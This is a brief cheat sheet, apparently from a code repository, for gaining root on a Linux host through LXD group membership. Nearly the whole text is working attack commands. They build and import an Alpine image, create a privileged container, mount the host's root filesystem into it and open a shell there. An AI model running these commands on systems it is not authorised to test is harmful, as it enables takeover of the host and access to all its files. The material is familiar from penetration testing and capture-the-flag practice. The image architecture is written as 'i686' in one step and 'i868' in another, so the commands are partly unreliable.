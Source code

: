 # LXD-Privesc-CheatSheet

-if you can't find the git here it is for reference

git clone https://github.com/saghul/lxd-alpine-builder.git
                                                                                                                                                                                                                                           
-first you wanna build the LXD image locally                                                                                                                                                                                                    
                                                                                                                                                                                                                                           
sudo ./build-alpine -a i686                                                                                                                                                                                                                
                                                                                                                                                                                                                                           
-After that is done it will make a gunzip and send that over to the target                                                                                                                                                                 
-Next we will run a slew of commands since we are already in the LXD group                                                                                                                                                                 
-If not you will need to add it to usermod                                                                                                                                                                                                 
-Now we run a slew of commands                                                                                                                                                                                                             
-This makes the LXD image on the target host                                                                                                                                                                                               
                                                                                                                                                                                                                                           
lxc image import alpine-v3.12-i868-20200831_1748.tar.gz --alias temper                                                                                                                                                                     
                                                                                                                                                                                                                                           
-Next we setup the LXD image on local with escalated priv                                                                                                                                                                                  
                                                                                                                                                                                                                                           
lxc init temper hereiam -c security.privileged=true                                                                                                                                                                                        
                                                                                                                                                                                                                                           
-Now you need to add a HD for example sometimes it will be in /mnt/root other times no                                                                                                                                                     
                                                                                                                                                                                                                                           
lxc config device add hereiam host-root disk source=/ path=/mnt/root recursive=true                                                                                                                                                        
                                                                                                                                                                                                                                           
-Lastly we start the LXD                                                                                                                                                                                                                   
                                                                                                                                                                                                                                           
lxc start hereiam                                                                                                                                                                                                                          
lxc exec hereiam /bin/sh    
